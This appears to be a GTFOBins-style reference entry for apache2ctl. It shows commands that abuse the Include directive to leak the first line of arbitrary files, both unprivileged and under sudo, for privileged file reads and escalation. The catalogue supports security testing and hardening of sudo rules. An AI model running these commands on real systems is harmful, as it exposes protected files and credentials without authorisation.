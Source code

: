 # GTFOBin: apache2ctl

This includes the file in the actual configuration file, the first line is leaked as an error message.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
apache2ctl -c "Include $LFILE" -k stop
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo apache2ctl -c "Include $LFILE" -k stop
```